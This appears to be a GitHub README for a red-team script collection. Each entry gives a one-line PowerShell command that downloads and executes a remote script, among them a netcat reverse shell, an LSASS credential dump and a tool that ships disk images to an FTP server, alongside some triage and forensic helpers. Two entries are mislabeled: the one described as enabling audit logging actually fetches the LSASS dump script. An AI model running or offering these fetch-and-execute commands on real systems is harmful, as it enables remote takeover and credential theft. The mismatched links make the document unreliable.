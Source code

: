 # Eren Red Team
This repository contains the scripts that is created by Eren Red Team.

## bootstrap.ps1
Downloads necessary installation packages for CyberPipe and runs it, creates .vhdx file of the target.
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/bootstrap.ps1')
```

## transfer.ps1
Automatically finds .vhdx file in the determined destination path and sends it to FTP server.
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/transfer.ps1')
```

## cekmece.ps1
Triage tools with little automation
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/cekmece.ps1') 
```

## inspedefe.ps1
String search tool inspired by Didier Stevens's PDFiD
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/inspedefe.ps1') 
```

## korktunmu.ps1
Python and PIP Installation using Chocolatey
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/korktunmu.ps1') 
```

## olegunnar.ps1
Glue to use ole-tools
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/korktunmu.ps1') 
```

## godhand.ps1
Simple reverse shell with netcat without no obfuscation
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/godhand.ps1') 
```

## macaron.ps1
Loudest LSASS dump ever
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/macaron.ps1') 
```

## ne$e.ps1
Enables advanced audit policies and PowerShell logging for detailed process, authentication, and privilege monitoring.
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/macaron.ps1') 
```